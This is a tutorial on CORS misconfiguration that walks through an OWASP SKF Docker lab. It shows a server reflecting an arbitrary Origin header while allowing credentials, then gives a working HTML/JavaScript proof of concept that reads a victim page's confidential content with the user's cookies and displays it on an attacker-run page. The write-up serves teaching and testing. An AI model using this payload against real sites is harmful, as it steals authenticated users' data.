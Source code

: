 **Cross-Origin Resource Sharing (CORS)** is a mechanism that allows a web server to *restrict access to resources from different origins*, i.e. different domains or protocols. CORS is used to protect users' privacy and security by preventing other websites from accessing sensitive information without permission.

Suppose we have a web application on the domain "*example.com*" that uses a web API on the domain "*api.example.com*" to retrieve data. If the web application is properly configured for CORS, it will only allow cross-origin requests from the "*example.com*" domain to the API on the "*api.example.com*" domain. If a request is made from a different domain, such as "*attacker.com*", the request will be blocked by the web browser.

However, if the web application is not properly configured for CORS, an attacker could exploit this weakness to access sensitive resources and data. For example, if the web application does not validate the user's authorization to access resources, an attacker could inject malicious code into a web page to make requests to the application's API in the "*api.example.com*" domain.

The attacker could use automated tools to test different CORS header values and find a misconfiguration that allows the request from another domain. If the attacker is successful, he could access sensitive resources and data that should not be available from your website. For example, he could retrieve user login information, modify application data, etc.

To prevent this type of attack, it is important to properly configure CORS in the web application and ensure that only cross-origin requests from trusted domains are allowed.

# Example

For the realization of the example we must download and execute the following resource:

```
docker pull blabla1337/owasp-skf-lab:cors
docker run -it -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

Once the lab is configured we can enter *localhost* on port *5000* and log in with *admin*:*admin*.

If we refresh the page and send the request to **BurpSuite** we will see these two headers in the response:

```bash
# This is so that requests can be made from behind where session cookies and others are transported
Access-Control-Allow-Credentials: true

# Everyone can upload resources from this website
Access-Control-Allow-Origin: *
```

The idea with *Access-Control-Allow-Origin* is that only the sites from which we want to load the resources are allowed, otherwise anyone can load them.

If we put an *Origin* header in our request, we could in this case define our own web site in *Access-Control-Allow-Origin* and thus load all the content of this web site in our malicious web site:

```bash
# Request header
Origin: https://test.com

# Response header
Access-Control-Allow-Origin: https://test.com
```

In this case, *\https://test.com* has the possibility to load a resource from the victim page to bring it to you and dump it on our website.

To test cloning all the web content we can run our own web site on a local *Python* server on port *80* with the following *HTML* file:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'http://localhost:5000/confidential', true);
    req.withCredentials= true;
    req.send();

    function reqListener() {
        document.getElementById("stoleInfo").innerHTML = req.responseText;
    }
</script>

<br>
<center><h1>You have been pwned, this is your website information:</h1></center>

<p id="stoleInfo"></p>
```

We can see that we have indeed been able to steal the resources of the victim website and dump them on our own website.